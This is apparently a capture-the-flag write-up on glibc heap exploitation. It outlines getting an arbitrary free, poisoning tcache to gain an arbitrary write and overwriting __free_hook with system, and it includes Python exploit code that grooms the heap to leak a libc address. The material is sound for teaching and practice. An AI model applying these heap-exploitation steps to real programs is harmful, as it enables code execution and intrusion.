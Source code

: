 This will require some [basic knowledge of the glibc heap](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/) as well as a tool like GEF's `heap bins` command. All of this was determined experimentally (ie. looking at the heap with `heap bins` and figuring out what allocations / frees needed to be made to get things where I wanted)

Overview: My exploit creates the ability to call free() on a arbitrary pointer. I then construct a fake chunk, get it free'd into tcache, and then overwrite the next pointer so that a later malloc will return a controlled pointer -- this gives me an arbitrary write. Use this to overwrite __free_hook to call system.

### Getting a libc leak

The chunk with the favorites structure got free'd but we can still read from the 'best word', which also got freed. To get a libc leak, we want the 'best word' to get free'd into the "unsorted bin" -- I remembered from a previous challenge that free'd chunks in the unsorted bin contain a libc pointer.

```python
    # Some extra allocations
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    
    # This will allocate 3 times:
    # 1. reading in and stored to my list
    # 2. strdup into favorites list
    # 3. strcup as the 'best word' ** 8th allocation **
    suggest(r, 0x300, b"fun" + b"X" * 0x2fc)

    # This will free 6 of them
    scrap_my_list(r)
    
    # Some dummy allocations so that our favorites list ends up
    # where we want it later (will talk about later)
    suggest(r, 0x10, b"dummy")
    suggest(r, 0x40, b"dummy")

    suggest(r, 0x10, b"funY")
    for i in range(2):
        suggest(r, 0x60+(i), b"fun" + b"X" * i)

    # At this point, the favorites list is traversed 
    # and the remaining 0x300 allocations are free'd.
    # The 'best word' allocation is free'd last and is
    # placed in the unsorted bin.
    
    r.recvuntil("You have given me so many")

    # Read from the favorite word. This is a free'd
    # chunk, so we are reading a libc leak
    leak = u64(get_favorite(r)[:8].ljust(8, b"\x00"))
    print("leak: %s" % (hex(leak,)))
```
